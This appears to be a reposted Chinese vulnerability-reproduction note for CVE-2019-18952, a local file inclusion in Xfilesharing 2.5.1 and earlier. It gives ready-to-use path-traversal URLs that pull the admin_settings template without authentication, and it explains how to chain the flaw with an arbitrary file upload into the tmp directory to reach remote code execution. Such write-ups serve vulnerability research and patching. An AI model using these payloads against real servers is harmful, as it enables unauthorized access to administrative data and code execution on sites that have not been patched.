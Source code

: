 # （CVE-2019-18952）Xfilesharing 2.5.1 本地文件包含

> 原文：[http://book.iwonder.run/0day/Xfilesharing/2.html](http://book.iwonder.run/0day/Xfilesharing/2.html)

## 一、漏洞简介

## 二、漏洞影响

Version: <=2.5.1

## 三、复现过程

### 本地文件包含

```
http://0-sec.org/?op=page&tmpl=../../admin_settings 
```

此 URL 将获取“ admin_settings.html”模板，无需任何身份验证。“ .html”扩展名在服务器上进行了硬编码，因此所包含的文件必须在服务器上的任何位置都具有 html 扩展名。甚至可以通过上传 html 文件（例如“ upload.html”）并将“ sid”更改为“ ../../../../../../tmp”将 LFI 与任意文件上传漏洞合并，然后因此该文件将上传到服务器的 tmp 目录中。

```
http://0-sec.org/?op=page&tmpl=../../../../../../../tmp/upload 
```

Xfilesharing 脚本也内置了短代码，因此您可以实现 RCE 通过将它们包括在“上传”中。

